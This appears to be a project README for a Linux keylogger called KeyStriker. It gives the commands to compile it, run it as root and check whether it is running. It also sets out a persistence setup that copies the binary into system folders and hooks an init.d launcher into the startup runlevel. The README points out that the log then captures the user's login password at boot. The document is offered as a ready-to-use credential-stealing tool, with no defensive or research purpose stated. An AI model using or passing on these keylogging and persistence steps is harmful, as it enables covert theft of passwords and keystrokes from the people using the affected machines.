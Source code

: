 # Keyloger-KeyStriker
---------------------
A linux keyloger with the possibility to launch it at startup.

1) Compile the source with code blocks IDE, codeblocks must be in root -> sudo codeblocks in a terminal.

Or from src folder and linux command line : gcc main.c keylogger.c utils.c -o KeyStriker

2) Then for launch the keyloger use the command : sudo ./KeyStriker

The log keys are in /var/log/KeyStriker.log

-> For see at any time if the keyloger is running use the command : ps -aux | grep KeyStriker

if you see a line like this :

root 6727 0.0 0.0 4380 76 ? Ss 03:26 0:00 ./KeyStriker

The keylogger is running.

-> For stop the keyloger use the command : sudo killall KeyStriker 

or push F12 for go out properly of the program.

-> For launch the programm at startup follow this steps :

- copy the KeyStriker binarie in /usr/bin and /usr/sbin with the command :  sudo cp KeyStriker /usr/bin && sudo cp KeyStriker /usr/sbin

- make the script daemon_launcher.sh executable wiht the command : sudo chmod +x daemon_launcher.sh

- copy the script called daemon_launcher.sh in /etc/init.d/ with the following command : sudo cp daemon_launcher.sh /etc/init.d

- make a symbolic link with this command :  sudo ln -s /etc/init.d/daemon_launcher.sh /etc/rc2.d/S88daemon_launcher.sh

- make the script startup.sh executable with the command :  sudo chmod +x startup.sh

- in script folder launch the script called startup.sh

You 're done.

Reboot the machine and you will see in /var/log/KeyStriker.log your user password you entered for open the linux session wish mean the daemon was running at startup.

Then the keylopgger run in background and keep logging all key striked.

For stop the program at startup follow this steps :

- make the script delete_startup.sh executable with the command : sudo chmod +x delete_startup.sh

- run the script in script folder called delete_startup.sh with the command :  sudo ./delete_startup.sh

You 're done.

Thanks.
